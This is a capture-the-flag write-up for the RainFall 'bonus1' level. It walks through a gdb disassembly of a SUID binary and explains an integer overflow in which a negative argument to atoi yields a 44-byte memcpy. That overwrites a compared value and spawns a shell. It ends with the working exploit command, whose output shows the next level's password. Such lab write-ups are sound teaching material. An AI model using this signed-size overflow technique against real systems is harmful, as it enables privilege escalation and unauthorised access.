 login as the user `bonus1`

```shell
 ssh -p 4242 bonus1@10.13.100.31
bonus1@10.13.100.31's password: cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
```

a `SUID` exactable file is locates in the home directory


```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   %ebp
   0x08048425 <+1>:     mov    %esp,%ebp
   0x08048427 <+3>:     and    $0xfffffff0,%esp
   0x0804842a <+6>:     sub    $0x40,%esp
   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:    mov    0xc(%ebp),%eax
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:   movl   $0x8048583,(%esp)
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    $0x0,%eax
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
(gdb) x/s 0x8048583
0x8048583:       "/bin/sh"
(gdb) p 0x574f4c46
$1 = 1464814662
```

after inspecting the program we find that it accepts 2 arguments
then it passes the first argument to `atoi` and stored in a variable in the stack.
the second is copied into a buffer of size `40` in the stack using `memcpy`, the number of copied bytes are the value returned by `atoi` * 4.

the program checks of the return of `atoi` is greater then `9` this leads to a `memcpy` with a maximum size of 36 bytes preventing a stack overflow to occur.

if the return of `atoi` matches the value `0x574f4c46` a new shell is spawned in the current process using `execl`.


the program accepts any integer value as the first argument, as long as it is greater than `10`. but it dose not check for negative values.
so passing `-1` to the program will result to passing `0xffffffff * 4 = (0xffffffff * 4) % 4294967296 = 4294967292` as the copy size of `memcpy`.



we have a `40` byte buffer in the stack and next to it in the location of out passed integer value (the return of `atoi`), we need to change the integer value so that we can spawn a shell.

we will need the copy size of `memcpy` to resolve to `44`,

```rust
let a = 10000000 00000000 00000000 00001011 (Base 2) == -2147483637 (Base 10)
a <<= 2 || a *= 4
a == 00000000 00000000 00000000 00101100 (Base 2) == 44 (Base 10)
```

now we just need to pass in a random 40 byte buffer and append it with out desired value to override the integer stored location

```shell
bonus1@RainFall:~$ ./bonus1 -2147483637 `python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'"`
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$
```
